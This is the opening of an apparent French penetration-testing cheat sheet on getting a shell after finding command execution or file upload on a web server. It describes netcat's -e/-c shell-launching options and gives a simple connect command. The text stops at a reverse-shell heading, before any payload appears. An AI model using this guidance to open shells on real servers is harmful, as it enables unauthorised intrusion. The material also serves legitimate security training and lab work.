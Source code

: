 





## Web Shell

Lignes de code à injecter dans des pages web pour lancer des commandes shell.







## Principe

Vous avez trouvé une requête web qui permet d'executer des commandes sur le serveur, ou vous avez reussi à trouver comment uploader un fichier qui peut être exécuté.<br/>
Votre objectif maintenant est d'obtenir un shell sur la machine, ce qui permettra une exploitation confortable.<br/>
Vous allez utiliser les outils installés sur le serveur (netcat, bash, php, python, perl, ...) pour ouvrir un shell sur le serveur et le connecter à votre shell.







## Netcat

Netcat, est le couteau suisse des connections entre serveurs.<br/>
Il peut se mettre en écoute, se connecter et lancer des shells.<br/>
<br/>
Les anciennes versions possédaient l'option -e ou -c qui permet de lancer un shell. Les version récentes ne possèdent plus cette option pour des raisons de sécurité<br/>
Sur Kali on trouve une version 1.10 en :
```
/usr/bin/nc -h
	-e shell commands : program to execute
	-c shell commands : program to execute
	-l                : listen mode
	-v                : verbose
	-p port           : local port number
```

Pour se connecter sur le port 3000 du serveur 10.0.0.11:
```
/usr/bin/nc 10.0.0.11 3000
```








## Netcat - Reverse Shell (-e version)
